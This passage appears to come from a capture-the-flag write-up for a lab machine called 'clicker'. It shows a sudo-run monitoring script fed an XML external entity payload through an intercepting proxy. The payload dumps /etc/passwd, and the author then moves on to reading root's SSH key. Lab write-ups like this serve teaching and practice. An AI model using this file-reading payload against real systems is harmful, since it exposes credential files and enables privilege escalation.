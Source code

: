 On clicking “Forward”, the file shows up in the terminal:

    
    
    jack@clicker:~$ sudo http_proxy=http://10.10.14.6:8080 /opt/monitor.sh 
    <?xml version="1.0"?>
    <!DOCTYPE replace [
    <!ENTITY ent SYSTEM "/etc/passwd">
    ]>
    <file>root:x:0:0:root:/root:/bin/bash
    daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
    bin:x:2:2:bin:/bin:/usr/sbin/nologin
    sys:x:3:3:sys:/dev:/usr/sbin/nologin
    sync:x:4:65534:sync:/bin:/bin/sync
    games:x:5:60:games:/usr/games:/usr/sbin/nologin
    man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
    lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
    mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
    news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
    uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
    proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
    www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
    backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
    list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
    irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
    gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
    nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
    _apt:x:100:65534::/nonexistent:/usr/sbin/nologin
    systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
    systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
    messagebus:x:103:104::/nonexistent:/usr/sbin/nologin
    systemd-timesync:x:104:105:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
    pollinate:x:105:1::/var/cache/pollinate:/bin/false
    sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
    syslog:x:107:113::/home/syslog:/usr/sbin/nologin
    uuidd:x:108:114::/run/uuidd:/usr/sbin/nologin
    tcpdump:x:109:115::/nonexistent:/usr/sbin/nologin
    tss:x:110:116:TPM software stack,,,:/var/lib/tpm:/bin/false
    landscape:x:111:117::/var/lib/landscape:/usr/sbin/nologin
    fwupd-refresh:x:112:118:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
    usbmux:x:113:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
    jack:x:1000:1000:jack:/home/jack:/bin/bash
    lxd:x:999:100::/var/snap/lxd/common/lxd:/bin/false
    mysql:x:114:120:MySQL Server,,,:/nonexistent:/bin/false
    _rpc:x:115:65534::/run/rpcbind:/usr/sbin/nologin
    statd:x:116:65534::/var/lib/nfs:/usr/sbin/nologin
    _laurel:x:998:998::/var/log/laurel:/bin/false
    </file>
    

#### SSH Key

There are a handful of files I could try to read. `root.txt` would be a start,
but I’d rather go for a shell. There happens to be a root SSH key when I set
the XML to:
